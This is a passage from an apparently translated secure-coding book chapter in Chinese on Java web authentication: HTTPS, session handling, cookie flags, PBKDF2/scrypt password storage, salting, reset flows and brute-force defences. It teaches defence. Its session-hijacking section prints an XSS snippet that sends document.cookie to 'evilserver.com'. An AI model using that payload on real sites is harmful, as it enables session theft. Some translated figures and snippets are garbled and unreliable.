如果攻击者可以在传输过程中看到这些数据会有什么危害？完全没有！所有这些信息都是公开的，攻击者只需简单地在自己的浏览器中加载表单并尽情检查即可。HTTPS 不仅仅提供机密性；它还提供完整性。然而，考虑一下如果攻击者能够修改你的登录表单他们可能造成的危害。这种危害是巨大的！攻击者可以插入记录器，导致 HTTP POST 将你的密码提交到黑客控制的网站，或者在你点击提交时注入 JavaScript 将密码泄露到另一个黑客控制的网站。任何敏感表单都应该通过 HTTPS 交付，尤其是登录表单。

当用户登录你的 Web 应用程序时，所有内容都需要维护 HTTPS。HTTPS 将保护传输中的会话标识符和其他敏感数据。HTTPS 还强制执行完整性。它将防止攻击者修改你的网页，因为如果内容是通过 HTTPS 交付的，就无法向你的网站注入内容。

> www.troyhunt.com/2013/05/your-login-form-posts-to-https-but-you.html

签名的 SSL 证书还能正向识别网页页面内容的来源。这使得在没有获取被盗 SSL 证书的情况下，中间人攻击变得非常困难。

> **提示：** 确保从交付登录页面到用户完成注销的整个过程中，强制你的整个网站使用 HTTPS！

配置正确且更新的 SSL 服务器是每个网站都应该拥有的最佳防御之一。检查你的 SSL 配置的最佳资源之一是由 Ivan Ristic 运行的 Qualys SSL Labs。它提供了一套免费测试，用以检测你服务器 SSL 设置中的任何配置错误。

## 登录工作流步骤 3：处理并验证凭据

此时，我们假设你的用户已经在你的 Web 应用程序中注册为用户，并在你的数据库或身份服务（如 LDAP 服务器）中有条目。至少，主体的用户名和密码密文应该存储在你的身份持久化机制中。密码存储是一个复杂的话，我们稍后会讨论。

在上一步中，用户通过 HTTPS 通过登录表单提交了他们的用户名和凭据。首先在数据库中查找用户名以确保正确。如果没有，你就给用户一个通用的失败信息，如“用户名/密码组合无效”。接下来，你使用最初选择存储密码时相同的算法和盐对提交的密码进行哈希处理。^5 如果用户的密码密文与存储在数据库中的密文匹配（希望他们输入的多因素值也是有效的），则用户已登录成功，你可以开始他们的会话。

^4 https://www.ssllabs.com/ssltest/

^5 在非常安全的环境中，你应该始终对提交的密码运行密码保护算法，即使用户无效。这有助于防止用户名收割，通过测量输入正确用户名（会保护密码）和错误用户名（不保护密码）之间的响应时间差来保护。花费的额外时间也会减慢自动化攻击。

## 登录工作流步骤 4：启动用户的身份验证会话

由于 HTTP 是一个无状态协议，你无法知道请求之间的之间是谁。幸运的是，一旦用户登录，你就希望使旧会话失效并创建一个新会话。为了让你的工作更容易，大多数 Java 框架将自动创建：

```java
HttpSession mySession = request.getSession(true);
```

你应该确保你的网站不支持 URL 重写。如果你曾经见过像这样的 URL，你就知道：

```text
https://www.mysite.com/myAccount.jsp?sessionid=902B45163DCCFAE90748DBB358
```

URL 重写是一个安全漏洞，因为它会将会话置于浏览器历史、Web 服务器日志和引用标头的风险之中。与其使用这种不安全的选项，你的网站应该告知用户 cookie 是必要的。为了确保你的 Web 应用程序不支持重写，你可以通过在 `web.xml` 中添加以下内容强制会话使用 cookie：

```xml
<session-config>
  <tracking-mode>COOKIE</tracking-mode>
</session-config>
```

这告诉服务器你的应用程序仅使用 cookie 跟踪会话而不是 URL 重写。此外，如果你使用 Apache Tomcat，可以在 `server.xml` 或 `context.xml` 中设置以下内容在服务器级别禁用 URL 重写：

```xml
<Context docBase="/webapp" path="/myapp" disableURLRewriting="true">
```

## 登录工作流步骤 5：执行酷操作

现在你的用户已登录，她将开始用你的网站“酷操作”，例如在社交媒体上屏蔽妈妈分享尴尬的照片、为办公室购买奇特灯或对可爱猫视频发表评论。你知道，重要的事情。对于每个请求，浏览器会自动包含身份验证会话 cookie，服务器将验证 cookie 的会话 ID 是否指向活跃会话。这是验证验证请求的核心。将会话 ID 视为临时凭据，就像有效期只有一天的身份证，允许用户进入网站更安全的区域。因此，必须非常小心地保护会话 ID，因为如果它丢失或被盗，攻击者可以使用它可以访问合法用户可以访问的所有功能。

## 登录工作流步骤 6：敏感操作的潜在重新验证

用户的某些请求将非常敏感，并且需要额外的身份验证安全检查。需要重新验证的敏感交易经典示例包括更改密码或电子邮件地址、系统管理、权限分配和高额资金转账。安全的更改密码功能不仅要求新密码和确认，还要求当前密码。这样做是为了防止劫持了用户会话的攻击者（通常是受害者离开后坐在他们的终端前）更改用户的密码并从而完全破坏。

# 第 2 章：身份验证与会话管理

除了减少各种形式会话窃取的影响外，这有助于缓解 CSRF 类攻击。

## 登录工作流第 7 步：空闲超时

由于用户的会话 ID 是一个高度敏感的数据，一旦被盗可能会导致受害者账户被破解，因此你希望尽可能地限制会话 ID 的“寿命”。如果用户在一段时间内没有活动，你应该在服务器上使会话失效，并在用户下次发送请求时强制其重新登录。

Java EE 有一个大多数 Java 框架支持的默认会话超时机制。在 `web.xml` 中，通过简单的指令即可强制用户在未活动 20 分钟后，其在服务器端的会话失效。

```xml
<session-config>
    <session-timeout>20</session-timeout>
</session-config>
```

然而，许多现代以 AJAX 为中心的 Web 应用包含自动刷新机制的页面。这些页面可能每几秒更新一次，这意味着服务器永远不会认为用户处于“空闲”状态，导致会话无限持续。如果可能，当应用程序不是当前活动的浏览器标签页时，考虑通过 JavaScript 停止自动刷新机制。你还应该能够通过客户端 JavaScript 检测到用户在一段时间内没有活动，即使在自动刷新开启的情况下也是。一旦达到此客户端超时，JavaScript 应该向服务器上的某个页面发送一个 GET 请求，该页面将使会话失效并将用户带回登录界面。请注意，你仍然希望支持服务器端的空闲超时，但这种客户端空闲超时可以显著提高网站的安全态势，特别是对于那些长时间离开浏览器的用户。

## 登录工作流第 8 步：绝对超时

在确定会话标识符的寿命时，你不仅想限制用户可以空闲的时间，还想通过关闭会话并在一段时间后强制重新进行身份验证，来限制已验证会话的总长度。这可以防止已经破解了会话的攻击者通过自动化程序每隔几分钟访问一次网站，从而保持会话一直处于状态。设置会话允许的最长限制被称为绝对超时。在大多数 Web 框架中，绝对超时的支持并不理想，绝对超时的支持目前才在 Java 生态系统中出现。

在你的 Java Web 应用中实现绝对超时非常简单；只需创建一个提供以下逻辑的 Java EE 过滤器即可：

```java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
    if ((currentTime - LoginTime) > AbsoluteTimeoutLength) {
        request.getSession().invalidate();
    }
    //转发到其他过滤器
    chain.doFilter(request, response);
}
```

该逻辑简单地表示：当用户发出请求时，如果当前时间减去登录时间（用户登录的持续时间）大于会话允许的最长时间，则使当前已验证的会话失效。根据你的应用程序逻辑，这可能会强制用户重新登录，或者直接将他们带到网站的“匿名”部分。此过滤器仅在请求时触发，不会自动使会话超时。这与空闲超时结合使用是可以接受的，因为空闲超时会在用户未活动时自动触发。

## 登录工作流第 9 步：注销

另一个影响活动会话寿命的关键点是鼓励用户在完成后进行注销，以便你立即在服务器上终止他们的会话。注销按钮应该出现在你网站的显著位置，通常位于你网站每个页面的右上角。点击注销按钮时，它应该向服务器发送一个请求以触发逻辑，通过调用 `HttpSession.invalidate()` 立即销毁当前的活动会话。

# 针对身份验证的攻击

本节将探索攻击者在没有相应凭据或权限的情况下获取访问权限并破坏你的登录或会话管理的各种方法。我们还将探索防御这些常见身份层攻击的各种方法。让我们开始吧！

## 会话劫持

身份验证层面临的最风险之一是会话劫持风险。当攻击者可以猜测或窃取你的会话 ID，当攻击者可以强制受害者在公共计算机上登录账户时，会话劫持的威胁就会出现。

黑客破坏你会话的方法有很多。如第 4 章所述，通过 Cookie 窃取进行的会话劫持可以通过跨站脚本攻击发生，例如如下攻击：

```javascript
<script>
var img = new Image();
img.src = "http://evilserver.com?data=" + document.cookie;
</script>
```


如果在整个身份验证生命周期内没有使用 HTTPS，也会发生会话劫持。Eric Butler 发布了一个名为“Firesheep”的会话劫持开源 Firefox 插件，它在 2010 年底席卷了安全界。⁶ Firesheep 允许任何人通过与受害者处于同一网络来劫持已验证的会话。当时大多数主要的电子邮件和社交媒体网站未能确保身份验证后传输的安全（HTTP）。即使在今天（写本文时的 2014 年 3 月），Google 才首次修复了你的 Gmail 服务，使其仅支持 HTTPS。⁷ 从 2010 年开始，HTTPS 一直是默认选项。

即使是配置不当的 HTTPS（由于加密算法弱、密钥长度短或压缩导致的暴露漏洞），也允许精明的攻击者通过 CRIME 攻击等方法解密会话标识符。

# 第 2 章：身份验证与会话管理

## 当传输被加密时

> **提示**
>
> 如果你使用的是 Tomcat，请考虑将其加倍到默认值为 16 个字符；

## 会话固定

如前所述，会话劫持的一种特殊形式是会话固定。当攻击者可以欺骗受害者使用他们知的会话登录网站时，就会发生会话固定。攻击场景如下：

- 攻击者访问你的网站以获取有效的会话 ID。
- 攻击者为受漏洞网站创建一个包含此会话标识符的 URL，例如使用 URL 重写。
- 攻击者欺骗受害者点击该 URL 访问受漏洞网站。
- 受漏洞网站识别出该会话是由攻击者启动的。
- 一旦受害者登录，攻击者现在能够破解该会话。

仅通过 Cookie 支持管理，并禁用 URL 重写。然而，URL 重写并不是设置用户会话 ID 的唯一方法。跨站脚本也可以用于。

> **提示**
>
> 在用户成功登录后，使当前会话失效并创建一个新会话！

## 会话管理的安全 Cookie 属性

由于 HTTP Cookie 是大多数 Web 应用在浏览器和服务器之间保存和传输会话标识符的主要方式，因此尽可能地保护它们非常重要。有两个会话 Cookie 属性对于良好的 Web 应用安全至关重要。它们是 Secure Cookie 标记和 HttpOnly Cookie 标记。Secure Cookie 只通过 HTTPS 连接由浏览器传输。将 Secure Cookie 与 HTTPS 和严格传输安全（HSTS）结合使用，将无法通过明文泄露会话 Cookie。HttpOnly 标记防止 JavaScript 访问 Cookie 数据，但仍允许浏览器向相应的域和路径发出的请求自动附加 Cookie。HttpOnly Cookie 是减少跨站脚本窃取会话的一种非常重要的方法，但你仍然需要全面的跨站脚本防御策略，正如我们在第 4 章中所讨论。

幸运的是，大多数 Java Servlet 和 JEE 容器在创建会话后默认设置 Secure 和 HttpOnly Cookie 设置。请通过如 Burp Suite 等拦截代理监控流量，以验证你的应用程序服务器也是此类情况。当应用程序设置 Cookie 时，你应该在 `Set-Cookie` 响应头中看到 Secure 和 HttpOnly 标记：

```http
HTTP/1.1 200 OK
Set-Cookie: JSESSIONID=9352CB44544E0C89BC83; Path=/;
Secure; HttpOnly
```

如果你的应用程序没有自动带有这些标志设置 session cookie，你可以在 `web.xml` 部署描述符中指定使用它们。

```xml
<session-config>
  <cookie-config>
    <http-only>true</http-only>
    <secure>true</secure>
  </cookie-config>
</session-config>
```

你也可以通过编程方式设置使用这些标志的 cookie。当你的应用程序需要设置 `SESSIONID` 之外的其他 cookie 时，这种方法特别有用：

```java
Cookie cookie = new Cookie(COOKIE_NAME, cookieValue);
cookie.setSecure(true);
cookie.setHttpOnly(true);
response.addCookie(cookie);
```

## 在 Cookie 中存储敏感数据的危险

我们还鼓励你避免通过存储会话数据（如用户 ID、角色和其他标识用户的信息）来利用 cookie 实现无状态。即使数据经过了加密，窃取了你 cookie 的攻击者只需通过将 cookie 放入他们的浏览器并访问受害者网站，即可进行重放攻击。即使攻击者无法解密 cookie，他们仍然可以重用它们访问有漏洞的网站并破坏会话。此外，正如我们在第 6 章中讨论的，实现加密存储极其困难。即使是世界上顶级的应用密码学专家也会经常出错。

## 凭据安全

用户的密码和其他凭据是该用户通往王国的钥匙。用户网站绝不应在任何响应中返回有效的密码。当用户的密码从你的网站被盗取时，受影响的不仅仅是你的网站。遗憾的是，许多人在多个网站上重复使用密码，因此如果一个密码在你的网站上泄露，该用户的整个在线生活都会受到损害。此外，弱密码很容易通过各种不同的攻击被破解。你需要确保你的密码策略足够安全，同时又不损害易用性；你需要安全地存储用户的密码，并且你通常需要提供安全的次级密码服务，例如忘记密码的工作流。

## 密码策略

关于密码策略的传统智慧往往已经过时。我们看到许多策略强制至少包含一个大写字母、一个小写字母、一个数字和一个非字母数字字符。有多少企业安全策略允许 `"Password1!"` 作为一个接受的密码？它有十个字符并包含了所有的特殊字符，但它安全吗？绝不！事实上，`"Password"` 是商业领域中最常用的密码之一，而 `"Password1!"` 在“最差密码”类别中也紧随其后。虽然在密码中强制执行特殊字符仍然重要，但确保你的用户不使用包含字典词汇的密码同样重要（甚至更重要），并确保他们不使用常用密码，即使是那些可以通过传统密码策略的密码。更好的是，完全不要依赖密码，因为密码作为单一身份验证因素的时代已经结束了。是时候将我们的所有系统转向多因素身份认证了。

## 密码管理器

现代时代密码策略的另一个关键方面是允许长复杂的密码。这有助于实现密码管理器等工具。密码管理器是一种软件，它会为每次访问网站自动创建一个长长的、随机且复杂的密码，并安全地保存这些密码。Twitter 的首席安全官 Bob Lord 要求所有员工使用密码管理器。虽然这不会带来令人兴奋的黑客攻击新闻，但对于 Twitter 确保组织安全来说，这是一个巨大的胜利。

> http://news.softmedia.com/news/Hack-in-the-Box-13-Twitter-s-Bob-Lord-Forces-New-Employees-to-Use-Password-Managers-344699.shtml

确保你的网站已准备好支持密码管理器！

为了让你的网站“支持密码管理器”，我们建议允许用户选择非常长的密码，但不要太长¹¹⁰。同时，务必避免在身份验证表单字段上使用复杂的 JavaScript，因为那可能会干扰密码管理器与你网站交互的能力。最后，网站允许用户在密码字段中粘贴内容是非常重要的（可以通过 JavaScript 禁用）。

## 密码存储：验证但不恢复

你应该如何存储密码？让我们从几个要求开始。基本上，你希望能够极其快速地验证用户的密码是否正确。然而，即使攻击者通过某种方式窃得了你的数据库或凭据数据，你也不希望在任何合理时间内（即使在可以使用超级计算能力的情况下）读取密码。最好的密码存储策略使用基于密码的密钥派生函数，将密码存储为与原始密码无法识别的形式。这防止了即使是网站管理员也知道用户的密码！还有密码学家工作组正在研究并构建下一代密码哈希算法¹¹¹¹。

针对密码存储创建的最佳（也可能是唯一的）威胁模型来自 John Steven¹¹²。我们挑战那些不同意 John 断言的应用安全社区，发表一个竞争性的威胁模型，或者以某种科学且可发表的方式对其工作进行批判。许多人忽视了这些建议，但没有提供任何科学证据说明原因。

尽管如此，强密码存储的全部目的是防止攻击者在你的数据库或密码密文被盗取时也能发现你用户的密码。一旦你的密码数据被盗，攻击者将尝试“离线”发现你用户的密码：使用字典攻击、暴力破解攻击和彩虹表攻击（即预计算的哈希值数据库）。

> ¹⁰ https://www.djangoproject.com/blog/sep/2013/sep/15/security/
>
> ¹¹ https://password-hashing.net/
>
> ¹² https://goo.gl/Spvzs

## 针对密码存储的攻击

针对密码存储的暴力破解攻击发生在攻击者遍历包含所有可能的密码的列表，为每个潜在密码创建密文，并将其与你存储的数据库进行比较时。尽管这看起来像是一种低效的攻击，¹攻击者现在可以访问专门的密码破解算法和高性能 GPU 破解设备，这些设备针对你的存储机制每秒可以尝试数十次密码尝试¹⁴。攻击者还拥有大量的已知密码列表，这些通常是他们首先尝试的。

> **提示**
>
> 攻击者对你的密码存储尝试暴力破解的一种极佳方法是简单地在你自己网站的登录过程中尝试许多密码组合！这对于攻击者来说还有一个好处，即利用了你自己的硬件！确保在锁定账户之前设置一个最大错误尝试次数。多因素身份认证也是一种防止暴力破解攻击的良好防御。

针对密码存储的字典攻击发生在以下情况：

- 攻击者窃取了你的密码密文。
- 攻击者理解你的密码存储算法。
- 攻击者尝试使用大量常用密码和字典词汇列表来发现密码，生成该密码的密文，然后与你存储的密文进行比较。一旦攻击者找到匹配项，他们就发现了一个密码！

¹尝试所有少于 10 个字符的密码（考虑大写、小写、数字和基础非字母数字字符）大约需要 `90¹⁰` 或 `3.486744e+19` 次尝试！

## 彩虹表攻击

攻击者还可以使用名为“彩虹表”（Rainbow Tables）的大型预计算哈希列表。2012 年，LinkedIn 遭到入侵，密码数据被盗¹¹⁵。当时，LinkedIn 正在使用 MD5 哈希算法进行密码存储。这是一个极其糟糕的主意，因为早在 1996 年就发现了 MD5 的缺陷，甚至其作者也从 2005 年起停止推荐使用它¹¹⁶。黑客在入侵后的第一天，通过在数据库中查询密码哈希值，就能发现超过 90% 的 LinkedIn 用户密码。事实上，有几十个网站托管免费的开源 MD5 数据库，你甚至可以通过 Google 找到许多 MD5 哈希的原始明文¹¹⁷。

哪种密码存储方式可以抵御此类攻击？

首先，如果你不强制执行强密码策略，任何密码存储机制都是徒用的。我们之前讨论过良好的密码存储机制。

Java 生态系统中，密码存储的首选方案是原生支持的 PBKDF2 NIST KDF（密钥派生函数）¹⁸。该函数是单向的，并且可以配置为相对缓慢的处理速度——故意为之。为什么不想为密码存储使用慢算法呢？GPU 破解设备和其他超级计算资源每秒可以尝试数十亿次哈希。当使用带有适当配置设置（即工作因子或迭代次数）的故意缓慢算法时，每秒数十亿次的尝试在相同硬件上将变为每秒几千次。以前需要几天或几周才能破解的，现在在相同硬件上可能需要几个月或几年。密码存储机制是完美的。你所能期待最好的就是赢得时间，以便从数据丢失事件中恢复。你可能需要向用户群发送一些尴尬的邮件，提醒他们更改密码，但如果运气好，没有人的实际账户会被破解。慢速（自适应）算法有助于我们实现这一目标。

以下使用 Java 中 PBKDF2 算法处理密码哈希的正确方法：

```java
byte[] pbkdf2(final char[] password, final byte[] salt,
final int iterationCount, final int keyLength) {
try {
return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1")
.generateSecret(
    new PBEKeySpec(password, salt, iterationCount, keyLength)
).getEncoded());
} catch (NoSuchAlgorithmException | InvalidKeySpecException e) {
    throw new RuntimeException(e);
}
```

上述密码验证函数在设置为 120,000 次迭代和 512 位密钥长度时，在具有 2.3 GHz 核心 i7 处理器和 16GB DDR3 RAM 的笔记本电脑上执行大约需要 750 毫秒。这实现了我们的目标：足够慢到可以阻碍暴力攻击，同时足够快，不至于影响拥有正确密码的合法用户的体验。随着时间的推移，计算机会变得更快，这个迭代次数完成所需的时间会更短。可以通过增加迭代次数来增强此函数。由于迭代次数与哈希密码一起存储在你的数据库中，你可以随着时间的推移增加迭代次数而不破坏向后兼容性。

> **提示**
>
> 使用 PBKDF2 存储每个用户的密码。为每个用户使用不同的随机盐（salt）。使用尽可能你能忍受的迭代次数！迭代次数越大，你的密码存储系统就越安全。

密码存储的另一种选择是基于脚本的密钥派生函数（scrypt）。scrypt 不仅运行很慢，还可以进行内存加固（memory hardened）。这意味着 scrypt 可以配置为在执行时消耗一定数量的内存。这将限制攻击者使用更复杂的硬件发现存储密码的能力。尽管 Java 不提供原生的 scrypt 支持，但开源 Java 加密提供程序 Bouncy Castle 确实支持 scrypt，尽管截至 2014 年 3 月，它是以一种未发表的方式支持的¹²⁰。安装 Bouncy Castle 的说明可以在 http://bouncycastle.org/specifications.html#install 找到。

## 密码存储注意事项

我们对 PBKDF2 和 scrypt 的建议是针对密钥派生函数（KDF）的。它们的目的是接收密码并（缓慢地）产生密钥。这些算法是存储密码的最佳方式，因为它们是经过良好测试的标准算法。除非你拥有应用密码学博士学位，否则你不应该尝试编写自己的实现版本。

尽管 PBKDF2 和 scrypt 是大多数类型网站密码存储的良好选择，但你上一次被要求实际上减慢代码速度是什么时候？这些算法可能需要大量的硬件来支持大量的并发登录。事实上，Django 开源 Python 内容管理系统曾遭受过一个众所周知的拒绝服务漏洞，因为它同时使用了 PBKDF2 算法并支持无限长度的密码！¹¹ 通过发送非常长的密码，攻击者可以强制运行 Django 的系统消耗过量的处理器资源。一个 1 MB 的密码提交可能会占用长达几分钟的 CPU 时间！不要犯这个错误。虽然你应该支持长密码，但 PBKDF2 是选择密码存储的合理算法，不要支持极长的密码。最终，Django 的开发者们确定了 4096 个字符的最大密码长度。这看起来是一个合理的限制——至少目前是这样。

> **提示**
>
> PBKDF2 是 Java 生态系统中密码存储的良好选择。确保为每个用户添加至少 32 个字符的唯一用户盐。确保在不损害用户体验的情况下将迭代次数设置得尽可能大。一个好的经验是将迭代次数设置得足够高，使得处理 PBKDF2 哈希在你的生产服务器上花费长达半秒的时间，并随着更快硬件的出现随时间增加迭代次数。

## 密码存储与规模处理

那么，当你需要处理大量用户的密码验证和并发登录过程时，你该怎么办？你当然可以向这个问题投入大量硬件并大功告成。但如果你想拥有安全的密码存储，并能够高效利用硬件处理大量的并发登录呢？这就是密钥哈希认证码（HMAC）大显身手的地方。当正确实现时，HMAC 可以在大规模（大银行等）实现安全的密码存储，这些地方已经拥有良好的密钥管理基础设施。HMAC 的强度取决于底层哈希函数的强度、密钥的大小以及保持密钥秘密的能力。HMAC 的速度基本上与哈希算法一样快，如果管理得当，它是不可逆的。然而，如果密钥被盗或丢失，整个系统就崩溃了（因为密码破解问题被简化为了简单的哈希函数）。在构建密码存储系统时，PBKDF2 和 scrypt 等 KDF 是很好的首选。然而，我们看到一些大型公司使用 scrypt 作为密码存储系统，在峰值负载期间仅密码处理就消耗了其大量的服务器资源！因此，通过转向 HMAC 解决方案，甚至可能为他们的服务器制作定制硬件，你能够大幅节省硬件利用的成本，同时仍提供安全的密码存储系统。是的，这很疯狂。

使用 HMAC 的系统在安全密码存储方面的工程实现要困难得多。你需要隔离密码处理以真正保护密钥。理想的系统是一个 Web 服务，它接收明文字符串并输出 HMAC 哈希，而从未将密钥暴露给你的应用程序代码。这个 HMAC Web 服务应该隔离在独立的硬件上，这样即使你的数据库、文件系统和 Web 服务器都被攻破，你的密码存储机制也不会受到破坏。即使你的整个数据库被攻破，至少用户使用该密码的其他网站也不会被攻破。

¹⁵ www.zdnet.com/security/md5-password-scrambler-no-longer-safe/12317

¹⁶ https://python.org/ipyguide/pymail/for-password-dev-2005/025885080.html

¹⁷ 尝试 Google 搜索 `"7ca6180b368696a0c8278eeabf0e4c."`。更好的办法是为你的密码创建一个 MD5 哈希并 Google。你会感到惊讶的。

¹⁸ http://docs.oracle.com/javase/6/docs/api/javax/crypto/spec/PBEKeySpec.html

¹⁹ http://grepcode.com/file/repo1.maven.org/maven2/bouncycastle/bcprov-jdk15on/1.47/org/bouncycastle/crypto/generators/SCrypt.java


²⁰ https://www.bouncycastle.org/devmailarchive/msg13653.html

²¹ http://artechnica.com/security/2013/09/long-passwords-are-good-but-too-much-length-can-be-bad-for-security/

²² www.techweeurope.co.uk/news/hardware-password-innovation-141263

# 铁甲 Java：构建安全的 Web 应用

## 盐（Salt）

无论你选择何种算法进行密码存储，在保护用户密码之前，务必为其添加一个唯一的、每次使用的“盐”。因为 `PBKDF2` 和 `scrypt` 生成的是可预测输出，如果两个用户具有相同的密码，他们的密码密文也将相同。例如，“password1”的 `SHA-256`²³ 哈希值始终是：

```
0b14d501a594442a01c6859541bcb3e8164d183d32937b8518354
42f9d5c9ae
```

如果你的密码泄露且攻击者能够反转其中一个哈希值，黑客只需查找其他具有相同值的条目，就能以极低的代价破解多个账户。

在哈希值中添加随机盐可以确保即使使用相同的起始值，也没有任何两个密码哈希值是相同的。以下 `SHA-256` 哈希值都使用了相同的起始值“password1”，但这次应用了随机盐：

```
83cad32be82c26f19b3ea8a7dc7c43dd301b047db40ec90b33cc
dff270d084
148aa6f263b2b30d28feca57f4c4a060051a5620e8c1c080306
33899d52ae1
f82550cc571ca4613e93a708cb6426c01fc4c18ebe967a8c759062
c2fa6f301a
```

这从根本上增加了攻击者存储所有可能的密码预计算哈希所需的彩虹表大小。添加 32 字符的随机盐意味着攻击者需要的不再是一个条目，而是 6²³ 或 2.27e⁵² 个条目，仅针对“password1！”

每当用户创建或更改其随机值（即盐）时，在使用 `PBKDF2`、`scrypt` 或你的专用 `HMAC` 设置保护密码之前，将盐添加到密码中。务必将盐与哈希密码一起存储在数据库中，以便在后续身份验证尝试中再次使用该盐。如果没有存储的盐值，你永远无法重新计算正确的哈希来检查用户输入的密码是否正确！

> ²³ 这是一个示例。永远不要用 `SHA-256` 存储密码；使用 `PBKDF2` 或 `scrypt`！

> ⁴ 假设包含大小写字母加数字。

## 第 2 章：身份验证与会话管理 45

我们特别感谢 John Steven 在密码存储方面的卓越工作和研究。有关更多信息，请查看他的 OWASP 密码存储备忘表。25

## 忘记密码工作流

如果你鼓励用户不要重复使用密码，并执行了强密码策略，早晚你会遇到用户忘记那些长复杂密码的情况。以消费者为中心的网站支持“忘记密码”工作流的最常见方式是通过密码重置表单，要求输入用户名，然后向账户记录的邮箱地址发送带有一次性链接的电子邮件。如果你是网上银行的用户，尝试重置密码。你会发现，大多数金融机构并不信任电子邮件作为密码工作流基础部分的安全性。他们有充分的理由：电子邮件的设计初没有考虑隐私或安全性。

如果可能，不要将忘记密码工作流作为你网站的一部分。强制你的企业通过拨打电话或使用其他经过充分验证的人工流程。仅此一点就能阻止更多攻击者。虽然这是理想的，但扩展性并不好。如果你有自动的忘记密码流程，可以考虑以下来自银行业的示例：

1. 通过请求两个或多个信息（如用户的社会安全号26 和账号）来建立用户身份。为此过程启动一个会话，并确保过程的其余部分来自同一个会话。

2. 一旦你成功建立了该用户的身份，作为可选步骤，考虑询问用户一个在注册期间设置的安全问题27。有些银行使用这种方法，有些则没有。

25 https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet

26 社会安全号对所有人（银行行业之外）可能不是很好的通用的建议，因为需要一些处理预防措施：www.pearalto.org/clientuploads/Legal/Statutes/SSNPrivacyAct.pdf

27 良好的安全问题必须是易记的、一致的、近乎通用且安全的。选择良好的安全问题访问这里：https://www.owasp.org/index.php/Choosing_and_Using_Security_Questions_Cheat_Sheet.

3. 现在你已经完全建立了身份，发送一个带外（out of band）的多因素令牌。最好的办法是使用专用的多因素认证设备或应用程序。次选是向账户手机发送短信。最糟糕的是通过电子邮件发送令牌，但由于已经建立了身份，这仍然比单独的电子邮件密码重置链接好。

4. 一旦你验证了用户的令牌有效，允许用户根据组织的策略将其密码重置为新的强值。关于此主题的更多信息，请参阅 David 编写的 OWASP 忘记密码备忘表。28

img/dcaa0b2cb11173196da03ebbf_65.png

> **提示** 确保即使用户的电子邮件地址泄露，“忘记密码”工作流也无法被成功攻击！

## 用户名采集（Username Harvesting）

针对你的 Web 应用的另一种身份验证层攻击是用户名采集。当威胁代理尝试验证用户名是否有效时，就会发生这种攻击。进行这种攻击的一种简单方法是检查登录失败时的错误信息。假设你尝试使用错误的用户名和错误的密码登录，错误信息显示“输入的内容无效”。这显然告诉攻击者所尝试的用户名是有效的！现在假设你尝试使用有效的用户名和错误的密码登录。如果错误信息显示“你输入的密码无效”，这暗示了什么？这告诉攻击者用户名是有效的。每当用户名有效或不有效时你的错误信息有所不同，攻击者就有轻而易举的手段进行用户名采集。许多安全编码标准都鼓励登录失败的错误信息无论失败类型如何都保持一致，以防止用户名采集。例如，无论输入的用户名是否有效，你的应用程序都可以返回通用的消息“用户名/密码组合错误。”

28 https://www.owasp.org/index.php/Forgot_Password_Cheat_Sheet

## 第 2 章：身份验证与会话管理 47

仅仅更改消息文本是不够的。为了使其正常工作，你必须非常关注实际的登录逻辑甚至是格式。考虑图 2-2 中的代码，其中包含不可见字符。

尽管两个条件下都使用了完全错误消息，但拦截代理（如 `Burp Suite`）可以轻松检测到视觉检查上相同的输出差异（见图 2-3）。

然而，如果你允许用户在账户注册期间选择自己的用户名，那么防止用户名采集就是毫无意义的。以消费者为中心的网站几乎总是验证请求的用户名是否已存在，并在选择重复名称时拒绝该选择。这可以很容易被带有姓名和电子邮件地址列表的攻击者利用，提供一个类似 `AJAX` 的小部件来验证请求的用户名是否有效。攻击者可以利用这些功能快速采集大量有效用户名。考虑实施限流以降低针对这些机制的自动化请求。某些企业和银行（如汇丰）甚至强制执行：

```
<TD COLSPAN=2 CLASS="error_message">%

...% if (!isValidUsername(username)) {

    --> %>

    <% MSG_INVALID_USERNAME %%

    <% else if (!isValidPassword(password)) {

    <% MSG_INVALID_PASSWORD %><% %>

    --> %>
}%

--> -->

</TD>",
```

**图 2-2。**包含不可见字符的代码示例

# 48 铁甲级 Java：构建安全的 Web 应用



用户名的策略要求，或者创建复杂的机器生成用户名，这对于安全的 Web 应用是非常值得考虑的。

## 重新审视暴力攻击、账户锁定和多因素

一旦攻击者知道了有效的用户名，他们就可以尝试暴力攻击。暴力攻击是指攻击者对受害者账户尝试大量密码，试图通过试错法来发现他们的身份验证凭据。像 `Brutus` 这样的旧式强制破解工具让暴力攻击变得简单。正如其名所示，这并不是一种高明或智能的攻击。

有许多方法可以对抗暴力攻击。最常见的防御是账户锁定。账户锁定是一种防御机制，在攻击者尝试错误登录账户若干次数后，该账户将被临时禁用，防止任何人登录该账户。账户锁定方案通常在失败几次后就会触发。随着你强制用户创建越来越复杂的密码，忘记密码或输入错误的情况只会变得更加常见。将你的账户锁定设置为十次失败可以快速触发针对自动化攻击的防御，但仍为用户正确输入密码留了足够的空间。如果你的账户锁定触发得太快，你的网站无疑是安全的，但可用性会大大降低。这里的关键词是“防止任何人”。需要找到一个平衡。如果攻击者了解你系统中各种用户名，账户锁定可以被用来对你的 Web 应用进行拒绝服务攻击，有效阻止任何用户登录其账户。

账户锁定的另一种形式是反向暴力攻击，即攻击者对系统中的许多不同账户各尝试一次常用密码。这种攻击的好处是它不会对任何一个账户触发账户锁定。禁止常用密码（即使它们符合你的普通密码策略）是缓解这种攻击的良好措施。

通常情况下，如果你的用户已启用或你强制执行了多因素认证（我们稍后会讨论），我们建议避免使用账户锁定。

## “记住我”功能

